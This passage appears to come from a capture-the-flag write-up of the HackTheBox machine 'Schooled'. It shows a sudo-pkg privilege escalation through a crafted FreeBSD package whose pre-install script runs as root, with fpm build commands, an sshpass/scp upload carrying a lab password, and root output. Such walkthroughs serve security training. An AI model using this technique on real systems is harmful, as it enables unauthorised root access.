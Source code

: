 

    root@Schooled:~ # cat root.txt
    e65bc368************************



### Alternative GTFOBins

When Schooled released, I don't believe `pkg` was on GTFOBins, but it is
[now](https://gtfobins.github.io/gtfobins/pkg/). It uses `fpm` to
generate a dummy package. [fpm](https://github.com/jordansissel/fpm) is
a tool for building packages for various OSes. That binary isn't on
Schooled:



    jamie@Schooled:/tmp $ which fpm
    jamie@Schooled:/tmp $ find / -name fpm -type f 2>/dev/null



I'll install it on my VM with `sudo gem i fpm -f`, and build that
package there with the commands from GTFOBins, which results in a `txz`
file in the current directory:



    oxdf@parrot$ TF=$(mktemp -d)
    oxdf@parrot$ echo 'id' > $TF/x.sh
    oxdf@parrot$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
    Created package {:path=>"x-1.0.txz"}
    oxdf@parrot$ file x-1.0.txz
    x-1.0.txz: XZ compressed data



I'll use `scp` to upload that to Schooled:



    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp x-1.0.txz jamie@10.10.10.234:/tmp/



And from Schooled run the command given:



    jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz 
    pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
    pkg: Repository FreeBSD cannot be opened. 'pkg update' required
    Checking integrity... done (0 conflicting)
    The following 1 package(s) will be affected (of 0 checked):

    New packages to be INSTALLED:                               
            x: 1.0                                              

    Number of packages to be installed: 1       
    [1/1] Installing x-1.0...
    uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
    Extracting x-1.0:   0%
    pkg: File //tmp/tmp.E9AA2kxeLQ/x.sh not specified in the manifest
    Extracting x-1.0: 100% 
